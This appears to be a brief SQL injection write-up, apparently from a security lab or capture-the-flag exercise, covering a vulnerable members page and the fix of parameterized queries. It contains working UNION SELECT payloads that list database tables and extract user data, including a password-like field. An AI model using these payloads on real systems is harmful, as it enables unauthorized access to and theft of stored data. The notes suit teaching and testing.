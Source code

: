 - Risk: Access to all database information
- solution: input validation and parametrized queries including prepared statements
- Method: in members page
    - using semicolon to check if an sql injection detect
    - Passing corespondent value and add union to get additional info
        - **EX**:
            
            ```jsx
            //extract all tables from database
            UNION SELECT table_schema, table_name FROM information_schema.tables
            //get all users
            1 UNION (SELECT user_id,CONCAT(town, country,  planet, Commentaire, countersign) from users)--
            ```